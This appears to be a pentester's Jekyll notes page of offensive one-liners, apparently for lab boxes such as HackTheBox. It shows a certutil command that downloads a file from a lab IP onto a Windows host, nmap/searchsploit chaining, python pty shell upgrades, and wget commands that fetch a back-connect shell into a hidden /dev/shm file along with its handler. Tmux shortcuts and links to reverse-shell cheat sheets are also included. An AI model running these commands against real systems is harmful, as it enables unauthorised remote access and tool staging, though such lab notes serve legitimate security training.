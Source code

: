 ```yaml
---
layout: default
title: Tips and Tricks
---
```


One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window</bloc>
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
q : Quit mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}

[Back to the top](##header)

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty raw -echo
stty -a
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Another option is to directly push a python pty shell to the targeted box:
{% highlight bash%}
wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_backconnect.py -o /dev/shm/.shell.py
{% endhighlight %}
configure the shell with the correct IP and port then get the shell handler
{% highlight bash%}
wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_shell_handler.py -o /root/HTB/handler.py
python handler.py -b YourIP:Youropenedport
{% endhighlight %}
<sup>Shell scripts from [infodox][link11]</sup>

Enjoy!

[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH

[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout

[Back to the top](##header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells

